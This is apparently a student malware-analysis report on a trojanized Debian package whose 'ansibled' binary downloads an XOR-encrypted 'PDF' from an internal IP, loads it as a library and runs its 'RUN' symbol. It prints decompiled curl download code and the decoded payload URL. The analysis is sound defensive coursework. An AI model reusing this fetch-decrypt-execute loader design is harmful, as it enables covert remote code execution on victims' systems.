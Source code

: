 # Project N2
## Definition
It was propsoed to us to try to analyse using reverse engineering a suspicius code that was found on campus using Reverse engineering techniques that were thought trought the semester. \
We need to find a response to the following questions:\
- **Do we really have a malware?**\
- **How the malware works and why a deb is used?**\
- **Are other hosts involved?**\
- **What is the potential impact to our organization?**\

## Strategy

First of all we started with a simple search of what is a deb and what are their components. This is the relevant information that we found:
- Deb is the file format that debian uses in its destributioiins
- This archive has 3 files: debian-binary (Containing package format number), control archive (Containig package name, version, dependencies and maintainer) and data archive(Containg the installable files)

### Integrity check 
As we checked there was too many files a shell script was made (with the help of stack overflow) to check the md5 of interely folders so we can compare them witha  genuine version

#### Control
Control is a file that contains the dependencies needed, seeing that the md5 didn't match the original one  we checked this file which contained two added depedencies:
- libcurl4-openssl-dev 
- curl
![S](img/image.png)

This may suggest that the malware needs to comunicate with an external server to **extravigate information** or **download extra code** from one.

### Data
The false deb has an extra lib folder that is suspicious, besides that, the usr folder has a folder where the hashes don't match with the original one.
![](img/image-1.png)
That folder has an extra file named **ansibled**


### Ansibled
#### Strings
Running the strings command can  give us some useful information, like this:

![alt text](img/image-2.png)

We can see this file is triying to connect to some socket and using the extra libraries mentioned before
####  File analysis with ghidra
##### Encript
Is a function started at `0x001016da` that XOR's a the second argument with the third and stores the result in the first.
![alt text](img/encript.png)
#### Threads
The main function executes a thread that is always listening and waits for a connection to be made to a port a reads it and saves it on a variable.
#### Singal handler
On memory address `00101b37`is a function that will be the handler of a signal.
![Signal handler](img/SignalHandler.png)
This function points to two others
##### FUN_00101758
At `00101758` this function decodes two strings
-  From `"m6/2m%7+&\'l2&$` to `/tmp/guide.pdf`
-  From `*662xmms{plstzlstrlsvqm%7+&\'l2&$` to `http://192.168.160.143/guid?e.pdf`

Next the code 
```
  local_10 = curl_easy_init();
  if (local_10 != 0) {
    local_18 = fopen(local_a8,"wb");
    local_1c = 0x2712;
    curl_easy_setopt(local_10,0x2712,local_68);
    local_20 = 0x4e2b;
    curl_easy_setopt(local_10,0x4e2b,0);
    local_24 = 0x2711;
    curl_easy_setopt(local_10,0x2711,local_18);
    local_28 = curl_easy_perform(local_10);
    curl_easy_cleanup(local_10);
    if (local_28 != 0) {
      unlink(local_a8);
    }
    fclose(local_18);
  }
```
after serching for a bit we've found this example that very looks like the code above in "https://curl.se/libcurl/c/curl_easy_init.html"
![](img/ExampleCurl.png)
With the all evidence above we can see that this code is doing curl of a PDF file. 
We curled the pdf to see what it was and got a "500 comandos de Linux explicados".  We thought it could be a Poliglot so we checked the hash with a similar one we found online.
- Online:
![alt text](img/Hash1.png)
- What we Curled:
![alt text](img/Hash2.png)
It didn't match

- Online size:   1527251
-  We curled size:  1592968

##### FUN_00101a07 ->ReadFile
This is the second function of the handler and will help us tell what is done with the file.
##### FUN_001019b4-> File decription
Give an pointer, a size and a byte, it XOR's byte a byte the byte and the next byte in the pointer
![alt text](img/Filedecription.png)
##### FUN_00101870->RunSecretCode
This code works right after the File decription function, after the pdf get decripted this functions copies the pdf to ram with the name found on "0x64656c6269736e61". Then it loads the pdf as a library and looks for the symbol contained on "&DAT_001020d3" that is "RUN". After knowing the adress of that symbol it sends the code to run from there.
![alt text](/img/RunSecret.png)

